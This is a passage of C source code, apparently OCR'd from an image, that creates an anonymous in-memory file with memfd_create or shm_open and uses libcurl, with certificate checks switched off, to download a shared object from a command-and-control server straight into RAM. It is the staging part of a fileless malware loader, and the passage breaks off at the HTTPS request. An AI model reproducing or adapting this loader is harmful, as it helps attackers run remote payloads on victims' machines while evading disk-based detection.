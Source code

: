 ```c
	}
	else {
		return 1;
	}
}


// Returns a file descriptor where we can write our shared object
int open_ramfs(void) {
	int shm_fd;

	//If we have a kernel < 3.17
	// We need to use the less fancy way
	if (kernel_version() == 0) {
		shm_fd = shm_open(SHM_NAME, O_RDWR | O_CREAT, S_IRWXU);
		if (shm_fd < 0) { //Something went wrong :(
			fprintf(stderr, "[-] Could not open file descriptor\n");
			exit(-1);
		}
	}
	// If we have a kernel >= 3.17
	// We can use the funky style
	else {
		shm_fd = memfd_create(SHM_NAME, 1);
		if (shm_fd < 0) { //Something went wrong :(
			fprintf(stderr, "[- Could not open file descriptor\n");
			exit(-1);
		}
	}
	return shm_fd;
}

// Callback to write the shared object
size_t write_data (void *ptr, size_t size, size_t nmemb, int shm_fd) {
	if (write(shm_fd, ptr, nmemb) < 0) {
		fprintf(stderr, "[-] Could not write file :'(\n");
		close(shm_fd);
		exit(-1);
	}
	printf("[+] File written!\n");
}

// Download our share object from a C&C via HTTPs
int download_to_RAM(char *download) { 
	CURL *curl;
	CURLcode res;
	int shm_fd;

	shm_fd = open_ramfs(); // Give me a file descriptor to memory
	printf("[+] File Descriptor Shared Memory created!\n");
	
	// We use cURL to download the file
	// It's easy to use and we avoid to write unnecesary code
	curl = curl_easy_init();
	if (curl) {
		curl_easy_setopt(curl, CURLOPT_URL, download);
		curl_easy_setopt(curl, CURLOPT_SSL_VERIFYPEER, 0L);
		curl_easy_setopt(curl, CURLOPT_SSL_VERIFYHOST, 0L);
		curl_easy_setopt(curl, CURLOPT_USERAGENT, "Too lazy to search for one");
		curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_data); //Callback
		curl_easy_setopt(curl, CURLOPT_WRITEDATA, shm_fd); //Args for our callback
		
		// Do the HTTPs request!
```